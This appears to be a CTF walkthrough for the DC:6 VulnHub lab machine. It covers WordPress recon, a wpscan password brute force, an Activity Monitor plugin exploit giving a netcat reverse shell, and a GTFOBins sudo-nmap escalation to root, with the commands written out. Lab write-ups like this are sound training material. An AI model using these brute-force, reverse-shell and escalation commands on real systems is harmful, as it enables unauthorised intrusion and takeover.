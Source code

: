 # DC:6 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

DC:6 is a CTF created by DCAU. You can find the technical information about this CTF on the VulnHub page. First of all, make sure to download and install the correct OVA file from VulnHub. (https://download.vulnhub.com/dc/DC-6.zip).

On the VulnHub page, the author provides a hint for brute forcing. He mentions that you don’t have to wait a year to finish the attack, and offer a shorter wordlist from rockyou.txt..

![DC6](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*wWdhzZ--sontnfqjb_qsgg.png "DC6")

## 1 - Recon

I always create a directory on my desktop and take notes in it. As usual, I started with Rustscan and Nmap. But since it’s using WordPress as the CMS, I needed to add the machine’s IP to my /etc/hosts file (the author mentions this as well).

![DC6](https://miro.medium.com/v2/resize:fit:640/format:webp/1*SE0xrM3iZ3sb5wJo6ObICQ.png "DC6")

```bash
rustscan wordy (or nmap -p- -vv wordy)

*and version scan*

nmap -PN -sS -sV --script vuln -p wordy -oN finalscan
```
Instead of the Nmap scan above, you can also use wpscan. It’s more suitable for scanning WordPress websites. Either way, I found some critical information about the website.

![DC6](https://miro.medium.com/v2/resize:fit:828/format:webp/1*KZceBYPzLsN2LJqPzBZCUA.png "DC6")

I checked the website on firefox and there was an interesting paragraph.

```bash
Welcome to Wordy, a world leader in the area of WordPress Plugins and Security.
At Wordy, we know just how important it is to have secure plugins, and for this reason, we endeavour to provide the most secure and up-to-date plugins that are available on the market.
```
The paragraph about plugins. So I checked if plugins up to date or vulnerable somehow.

```bash
nikto -h http://wordy
```
But there was nothing important.

Also I found another not important stuffs with dirsearch.

![DC6](https://miro.medium.com/v2/resize:fit:828/format:webp/1*CoKJqHgrgjgGtOvGzWzWcQ.png "DC6")

![DC6](https://miro.medium.com/v2/resize:fit:640/format:webp/1*A0h7gynFYNyztV2LSjN1uQ.png "DC6")

I searched the images on apperisolve webpage. It is usefull webpage for automized searchs for jpgs, gifs etc…

I created a users.txt with above users list. And created a passwords.txt with author’s command.

![DC6](https://miro.medium.com/v2/resize:fit:720/format:webp/1*pQQfjiKJefFiShCK0dELRQ.png "DC6")

With below command I tried to brute force login page.

```bash
wpscan -U users.txt -P passwords.txt -t 60 --url http://wordy
``` 

I found the mark’s password mark / helpdesk01.

## 2- Getting Reverse Shell

Logged in with mark credentials and found out website uses the plugin “activity monitor “. There must be exploit for it so I searched on searchsploit. And found out one. I copied the exploit file in my current directory.

![DC6](https://miro.medium.com/v2/resize:fit:828/format:webp/1*IS36WCFMqq1mtA9uJwjNwQ.png "DC6")

I modified the exploit file by changing lhost and rhost variables. Searched for this file on browser and when I press the button , I get the shell in my netcat listener.

```bash
rlwrap nc -lvnp <port number>
```
After I get the shell I did the basic shell things.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

After that I searched the directories and there was a “things-to-do.txt” on mark’s directory. It says :

![DC6](https://miro.medium.com/v2/resize:fit:750/format:webp/1*-FmQXrhqD1YWY8YUO68vjw.png "DC6")

So , there is a user named graham and his password is GSo7isUM1D4.

I tried to connect ssh with this credentials. After that I run the command “sudo -l”. And now I got what graham can do as a jens with admin privileges. So i tried to “ sudo -u jen ./backups.sh”.

![DC6](https://miro.medium.com/v2/resize:fit:828/format:webp/1*hRxAVOHiL2TjY9GpUDZjOw.png "DC6")

Jens user can run nmap with super user privileges. In gftobins there is a code for almost every linux command.

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

Now I am root now and can read “theflag.txt”.

![DC6](https://miro.medium.com/v2/resize:fit:828/format:webp/1*5vI9NzM_lDllQ0V1bx8wAg.png "DC6")

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)
